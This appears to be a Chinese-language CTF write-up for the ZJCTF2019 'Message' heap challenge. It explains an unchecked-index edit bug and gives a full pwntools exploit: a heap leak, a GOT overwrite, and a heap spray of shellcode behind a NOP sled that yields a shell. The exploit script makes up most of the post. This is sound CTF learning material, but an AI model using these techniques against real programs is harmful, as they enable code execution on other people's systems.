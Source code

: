 ```yaml
---
title: ZJCTF2019-Message
date: 2019-09-23 14:23:48
tags: heap
---
```

heap spray
<!--more-->
# prelogue
估计我是非预期了感觉我这个也挺巧妙的利用
`\xe8`这个opcode来做第二次跳转
之前利用`heap_spray`在heap上布置`shellcode`
比赛的时候没有搞出来...tcl
# 漏洞
没有仔细逆..c++基础差..发现了edit里idx可以随便填...就开始搞了
# 思路
1. 利用edit -3 泄漏heap
2. new一些东西调整heap
3. edit 掉got->chunk1->chun2(末尾为0xe8))
4. 产生的效果是 got->chunk1(call .+????)->shellcode.
# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(n,c):
	cmd(1)
	p.sendlineafter("?\n",str(n))
	for x in range(n):
		p.sendlineafter("e\n",str(c))
def show():
	cmd(3)
def edit(idx,n,c):
	cmd(4)
	p.sendlineafter(":\n",str(idx))
	p.sendlineafter("?\n",str(n))
	for x in range(n):
		p.sendlineafter("e\n",str(c))
context.log_level='debug'
context.arch='amd64'
p=process('./message')
add(1,p64(0xdeadbeef))
edit(-3,1,p64(0xcafebabe))
show()
p.readuntil("0:")
p.readuntil("0:")
heap=u64(p.read(8))-(0x1b2b0b0-0x1b18000)
log.warning(hex(heap))
aim=0x0000000006040f0
now=0x2070090-0x205d000+heap
edit(0,4,"\x00"*0x18)
edit(0,1,"\x00"*0x18)
edit((aim-now)/8,1,(asm(shellcraft.sh())).rjust(0x10000,'\x90'))
cmd(1)
p.sendlineafter("?\n",str(1))
p.interactive('n132>')
```
